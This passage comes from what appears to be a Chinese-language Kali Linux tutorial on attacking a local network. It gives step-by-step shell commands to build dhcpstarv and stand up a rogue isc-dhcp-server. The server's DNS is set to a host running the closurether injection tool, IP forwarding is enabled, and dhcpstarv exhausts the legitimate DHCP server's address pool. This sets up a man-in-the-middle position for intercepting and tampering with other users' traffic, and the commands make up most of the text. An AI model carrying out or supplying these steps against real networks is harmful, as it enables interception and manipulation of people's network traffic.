 **2.进行dhcp攻击**:

下载[dhcpstarv](http://sourceforge.net/projects/dhcpstarv/files/dhcpstarv/0.2.1/dhcpstarv-0.2.1.tar.gz/download),安装：

```
root@kali:~/Desktop# tar zxvf dhcpstarv-0.2.1.tar.gz
root@kali:~/Desktop# cd dhcpstarv-0.2.1/
root@kali:~/Desktop/dhcpstarv-0.2.1# ./configure
root@kali:~/Desktop/dhcpstarv-0.2.1# make 
root@kali:~/Desktop/dhcpstarv-0.2.1# make install

```

> Kali默认没有安装dhcpstarv，也可以用yersinia代替

安装dhcp服务器：

```
root@kali:~# apt-get install isc-dhcp-server

```

修改dhcp配置文件dhcpd.conf

```
root@kali:~# cd /etc/dhcp/
root@kali:/etc/dhcp# cp dhcpd.conf dhcpd.conf.bak
root@kali:/etc/dhcp# vim dhcpd.conf

```

修改DHCP分配的地址池，修改默认路由为原来路由的Ip，修改广播地址：

![Alt text](http://drops.javaweb.org/uploads/images/22b152515fef2c09e13cf95af13609b9e984d9ef.jpg)

设置dns为开启了closurether的地址，如下图：

![Alt text](http://drops.javaweb.org/uploads/images/60ea1d14248586eee8eefe4fae90d8082436b178.jpg)

> 这里最好加一个正常的DNS服务器地址最为备选，防止我们的DNS服务对部分域名不解析

开启操作系统的路由转发：

```
root@kali:~# echo "1" > /proc/sys/net/ipv4/ip_forward

```

启动DHCP服务：

```
root@kali:/etc/dhcp# service isc-dhcp-server start

```

攻击正常的dhcp服务器，耗光ip资源:

```
root@kali:~# dhcpstarv -i eth0 -e 192.168.1.108

```
